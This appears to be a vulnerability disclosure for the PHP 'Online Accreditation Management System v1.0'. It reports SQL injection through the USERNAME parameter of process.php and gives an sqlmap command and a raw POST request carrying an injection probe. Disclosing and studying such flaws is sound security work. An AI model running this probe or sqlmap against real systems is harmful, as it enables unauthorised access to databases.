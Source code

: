 # Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---

![image-20220527131251530](png01.png)


### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---

![image-20220527130708845](png02.png)

![image-20220527131145577](png03.png)


### Proof and Exploit:

---
![mp4](poc.mp4)
